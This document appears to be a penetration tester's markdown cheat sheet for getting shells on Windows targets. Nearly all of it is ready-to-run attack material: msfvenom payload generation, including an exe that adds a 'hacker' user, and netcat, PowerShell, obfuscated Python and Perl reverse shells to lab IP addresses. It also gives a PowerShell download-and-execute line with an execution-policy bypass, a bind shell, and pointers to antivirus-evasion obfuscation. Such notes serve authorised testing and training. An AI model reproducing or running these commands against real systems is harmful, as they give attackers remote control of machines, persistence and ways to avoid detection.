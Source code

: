 # Windows Shells 
## Contents
- [Windows Shells](#windows-shells)
  * [Contents](#contents)
  * [Checklist](#checklist)
  * [Test Connection with ping](#test-connection-with-ping)
  * [Web Shells](#web-shells)
  * [Reverse Shell Commands](#reverse-shell-commands)
    + [File Transfers](#file-transfers)
    + [Msfvenom](#msfvenom)
    + [Netcat](#netcat)
    + [Powershell](#powershell)
    + [Powercat](#powercat)
    + [Socat](#socat)
    + [Python](#python)
    + [Perl](#perl)
  * [Antivirus Evasion](#antivirus-evasion)
  * [Resources](#resources)

## Checklist 
Remember to check for AV before uploading common payloads! 
- [ ] Can you exec .NET commands or Powershell as well? 
- [ ] Web Shells 
- [ ] Generate a payload - msfvenom or use nc/socat/powercat
- [ ] Upload payload and invoke 
- [ ] Antivirus evasion 

## Test Connection with ping  
    tcpdump -i [interface] icmp   
    ping 127.0.0.1 
    powershell -c "Test-Connection 127.0.0.1"

## Web Shells 
[White winter wolf Linux and Windows web shell](https://github.com/WhiteWinterWolf/wwwolf-php-webshell) 

[Nishang Invoke-Powershell Script](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) 
[ConPty shell](https://github.com/antonioCoco/ConPtyShell)  

## Reverse Shell Commands 
Most likely you will need an exe payload as other payloads aren't usually stable / powershell Execution-Policy is often restricted. 
Generate exe with msfvenom, upload nc, socat, powercat. Find upload point / code execution point to download and execute. 

### File Transfers 
Upload pages, certutil, powershell

    powershell Invoke-WebRequest -Uri http://192.168.119.149:8888/nc.exe -OutFile C:\xampp\htdocs\nc.exe  
    
### Msfvenom 
[Reference](https://thedarksource.com/msfvenom-cheat-sheet-create-metasploit-payloads/) 

    msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe	
    msfvenom -p windows/meterpreter_reverse_http LHOST=IP LPORT=PORT HttpUserAgent="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.103 Safari/537.36" -f exe > shell.exe	
    msfvenom -p windows/meterpreter/bind_tcp RHOST= IP LPORT=PORT -f exe > shell.exe	
    msfvenom -p windows/shell/reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe	
    msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe
   
   
Add a user in windows with msfvenom: 

    msfvenom -p windows/adduser USER=hacker PASS=password -f exe > useradd.exe
   
### Netcat
upload static binary nc.exe and invoke 

    nc.exe -nv 192.168.119.149 53 -e C:\WINDOWS\system32\cmd.exe 
    
Persistence: use -L for "listen harder"  

### Powershell 
[Powershell reverse shell scripts](https://github.com/ivan-sincek/powershell-reverse-tcp)  

    from cmd.exe, run powershell -c "payload"

    $client = New-Object System.Net.Sockets.TCPClient("192.168.119.149",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
    
    
    powershell -exec bypass -c "iwr('http://192.168.0.48:8000/Invoke-PowershellTcp.ps1')|iex" 

Bind shell (run on Windows then connect from Kali)

    $listener = New-Object System.Net.Sockets.TcpListener('0.0.0.0',443);$listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();$listener.Stop()
    
    
### Powercat 
Powershell version of netcat 
[Powercat](https://github.com/besimorhino/powercat)  


### Socat   
[reference](https://erev0s.com/blog/encrypted-bind-and-reverse-shells-socat/)   
cmd.exe,pipes

### Python  

    C:\Python27\python.exe -c "(lambda __y, __g, __contextlib: [[[[[[[(s.connect(('10.0.0.1', 53)), [[[(s2p_thread.start(), [[(p2s_thread.start(), (lambda __out: (lambda __ctx: [__ctx.__enter__(), __ctx.__exit__(None, None, None), __out[0](lambda: None)][2])(__contextlib.nested(type('except', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: __exctype is not None and (issubclass(__exctype, KeyboardInterrupt) and [True for __out[0] in [((s.close(), lambda after: after())[1])]][0])})(), type('try', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: [False for __out[0] in [((p.wait(), (lambda __after: __after()))[1])]][0]})())))([None]))[1] for p2s_thread.daemon in [(True)]][0] for __g['p2s_thread'] in [(threading.Thread(target=p2s, args=[s, p]))]][0])[1] for s2p_thread.daemon in [(True)]][0] for __g['s2p_thread'] in [(threading.Thread(target=s2p, args=[s, p]))]][0] for __g['p'] in [(subprocess.Popen(['\\windows\\system32\\cmd.exe'], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, stdin=subprocess.PIPE))]][0])[1] for __g['s'] in [(socket.socket(socket.AF_INET, socket.SOCK_STREAM))]][0] for __g['p2s'], p2s.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: (__l['s'].send(__l['p'].stdout.read(1)), __this())[1] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 'p2s')]][0] for __g['s2p'], s2p.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: [(lambda __after: (__l['p'].stdin.write(__l['data']), __after())[1] if (len(__l['data']) > 0) else __after())(lambda: __this()) for __l['data'] in [(__l['s'].recv(1024))]][0] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 's2p')]][0] for __g['os'] in [(__import__('os', __g, __g))]][0] for __g['socket'] in [(__import__('socket', __g, __g))]][0] for __g['subprocess'] in [(__import__('subprocess', __g, __g))]][0] for __g['threading'] in [(__import__('threading', __g, __g))]][0])((lambda f: (lambda x: x(x))(lambda y: f(lambda: y(y)()))), globals(), __import__('contextlib'))"
    
    
### Perl 

    perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"10.0.0.1:53");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'  
    
    
## Antivirus Evasion  
[PHP payload encoder](https://www.gaijin.at/en/tools/php-obfuscator#result) 

[Example - obfuscating payload to get a reverse shell on Windows](https://medium.com/@defsecone/evading-windows-defender-using-obfuscation-techniques-2494b2924807) 


## Resources  

[Tiberius Reverse Shells](https://github.com/Tib3rius/Pentest-Cheatsheets/blob/master/exploits/reverse-shells.rst) 

[Payload All the Things Reverse Shells](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) 

[Reverse Shell Cheatsheet](https://github.com/d4t4s3c/Reverse-Shell-Cheat-Sheet)  

